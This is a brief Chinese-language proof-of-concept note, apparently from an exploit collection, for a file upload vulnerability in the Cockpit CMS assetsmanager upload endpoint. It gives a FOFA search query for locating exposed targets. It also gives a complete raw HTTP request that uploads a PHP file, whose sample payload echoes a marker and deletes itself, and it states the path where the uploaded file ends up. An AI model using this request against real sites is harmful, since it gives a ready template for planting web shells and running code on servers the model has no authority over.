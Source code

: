 ## cockpit系统upload接口存在文件上传漏洞



## fofa

```
title="Authenticate Please!"
```



## poc

```
POST /assetsmanager/upload HTTP/1.1
Host: xxx.com
Content-Type: multipart/form-data; boundary=---------------------------36D28FBc36bd6feE7Fb3
Cookie: mysession=123451234512345123451234512345123
User-Agent: Mozilla/5.0 
Content-Length: 357

-----------------------------36D28FBc36bd6feE7Fb3
Content-Disposition: form-data; name="files[]"; filename="BE1a3e.php"
Content-Type: text/php

<?php echo "12131231231234e80test";unlink(__FILE__);?>
-----------------------------36D28FBc36bd6feE7Fb3
Content-Disposition: form-data; name="folder"


-----------------------------36D28FBc36bd6feE7Fb3--
```

![image-20240521201624377](../../assets/202405212016419.png)

文件路径`http://127.0.0.1//storage/uploads/文件名.php`